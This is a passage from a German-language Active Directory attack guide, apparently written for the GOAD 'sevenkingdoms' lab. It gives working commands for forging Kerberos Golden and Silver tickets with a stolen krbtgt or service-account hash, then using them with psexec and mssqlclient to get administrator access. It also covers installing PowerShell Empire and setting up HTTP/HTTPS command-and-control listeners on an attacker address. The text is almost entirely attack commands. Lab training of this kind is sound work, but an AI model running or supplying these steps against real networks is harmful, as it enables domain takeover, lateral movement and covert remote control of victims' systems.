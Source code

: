 ### 2.3 Golden & Silver Tickets

#### Golden Ticket Attack
```bash
# Nach erfolgreichem DCSync - KRBTGT Hash extrahiert
ticketer.py -nthash <krbtgt_nt_hash> -domain-sid S-1-5-21-2535930937-3240925528-3053620292 -domain north.sevenkingdoms.local -spn cifs/winterfell.north.sevenkingdoms.local administrator

# Ticket verwenden
export KRB5CCNAME=administrator.ccache
klist
psexec.py -k -no-pass administrator@winterfell.north.sevenkingdoms.local
```

#### Silver Ticket für SQL Server
```bash
# Mit sql_svc Hash (falls via Kerberoasting geknackt)
ticketer.py -nthash <sql_svc_nt_hash> -domain-sid S-1-5-21-2535930937-3240925528-3053620292 -domain north.sevenkingdoms.local -spn MSSQLSvc/castelblack.north.sevenkingdoms.local:1433 administrator

export KRB5CCNAME=administrator.ccache
impacket-mssqlclient -k castelblack.north.sevenkingdoms.local
```

---

## 3. PowerShell Empire/Covenant C2 Framework

### 3.1 PowerShell Empire Setup

#### Installation
```bash
# PowerShell Empire v4 (Python-basiert)
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire
pip3 install -r requirements.txt
python3 empire --rest

# Empire Client starten
python3 empire --client
```

#### Listener Setup
```bash
# HTTP Listener
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://192.168.1.100:8080
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > execute

# HTTPS Listener (empfohlen)
(Empire: listeners) > uselistener https
(Empire: listeners/https) > set Host https://192.168.1.100:8443
(Empire: listeners/https) > set Port 8443
(Empire: listeners/https) > execute
```
